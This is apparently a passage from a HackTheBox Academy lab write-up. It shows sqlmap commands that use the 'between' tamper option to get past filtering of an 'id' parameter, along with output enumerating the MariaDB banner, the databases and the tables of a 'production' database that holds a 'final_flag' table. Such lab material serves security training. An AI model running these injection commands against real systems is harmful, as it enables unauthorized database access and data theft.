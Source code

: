 ```javascript
--batch --tamper=between --banner --dbs --threads 10
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req -p id --batch --tamper=between --banner --dbs --threads 10

[SNIP]

[09:51:53] [INFO] fetching banner
0.3.23-MariaDB-0+deb10u1
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
banner: '10.3.23-MariaDB-0+deb10u1'
[09:53:28] [INFO] fetching database names
[09:53:28] [INFO] fetching number of databases
[09:53:28] [INFO] retrieved: 2
[09:53:30] [INFO] retrieved: information_schema
[09:54:30] [INFO] retrieved: production
available databases [2]:
[*] information_schema
[*] production

[SNIP]
```

```javascript
--batch --tamper=between -D production --tables --threads 10
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req -p id --batch --tamper=between -D production --tables --threads 10

[SNIP]

[09:58:49] [INFO] fetching tables for database: 'production'
[09:58:49] [INFO] fetching number of tables for database 'production'

[09:59:00] [INFO] retrieved: 
[09:59:05] [INFO] adjusting time delay to 1 second due to good response times
final_flag
[09:59:39] [INFO] retrieved: order_items
[10:00:18] [INFO] retrieved: products
[10:00:47] [INFO] retrieved: categories
[10:01:16] [INFO] retrieved: brands
Database: production
[5 tables]
+-------------+
| brands      |
| categories  |
| final_flag  |
| order_items |
| products    |
+-------------+

[SNIP]
```
